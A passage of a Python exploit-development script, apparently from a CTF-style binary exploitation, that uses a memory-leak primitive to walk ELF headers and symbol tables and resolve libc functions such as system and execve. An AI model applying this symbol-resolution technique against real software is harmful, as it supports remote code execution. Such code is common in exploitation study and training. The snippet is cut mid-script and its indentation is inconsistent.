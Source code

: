 ```python
   return e_phoff + addr

def findDynamic(Elf32_Phdr, moduleBase, bitSz):
   if bitSz == 32:
      i = -32
      p_type = 0
      while p_type != 2:
         i += 32
         p_type = u32(leak(Elf32_Phdr + i, wordSz).ljust(4, '\0'))
      return u32(leak(Elf32_Phdr + i + 8, wordSz).ljust(4, '\0')) + PIE
   else:
      i = -56
      p_type = 0
      while p_type != 2:
         i += 56
         p_type = u64(leak(Elf32_Phdr + i, hwordSz).ljust(8, '\0'))
      return u64(leak(Elf32_Phdr + i + 16, wordSz).ljust(8, '\0')) + PIE

def findDynTable(Elf32_Dyn, table, bitSz):
   p_val = 0
   if bitSz == 32:
      i = -8
      while p_val != table:
         i += 8
         p_val = u32(leak(Elf32_Dyn + i, wordSz).ljust(4, '\0'))
      return u32(leak(Elf32_Dyn + i + 4, wordSz).ljust(4, '\0'))
   else:
      i = -16
      while p_val != table:
         i += 16
         p_val = u64(leak(Elf32_Dyn + i, wordSz).ljust(8, '\0'))
      return u64(leak(Elf32_Dyn + i + 8, wordSz).ljust(8, '\0'))


def findSymbol(strtab, symtab, symbol, bitSz):
   if bitSz == 32:
      i = -16
      while True:
         i += 16
         st_name = u32(leak(symtab + i, 2).ljust(4, '\0'))
         if leak( strtab + st_name, len(symbol)+1 ).lower() == (symbol.lower() + '\0'):
            return u32(leak(symtab + i + 4, 4).ljust(4, '\0'))
   else:
      #i =0x17b8
      #i = 0x7f50 # system
      i = 0x8730 # execve
      while True:
         i += 24
         st_name = u64(leak(symtab + i, 4).ljust(8, '\0'))
         val = leak( strtab + st_name, len(symbol)).lower()
	 print val
	 print "i = " + hex(i)
         if val == (symbol.lower()):
            return u64(leak(symtab + i + 8, 8).ljust(8, '\0'))

puts_libc = 0
def lookup(symbol):

	global PIE
	PIE = 0

        libcBase = findLibcBase(puts_libc)
	log.info("Libc's base address:................... " + hex(libcBase))
```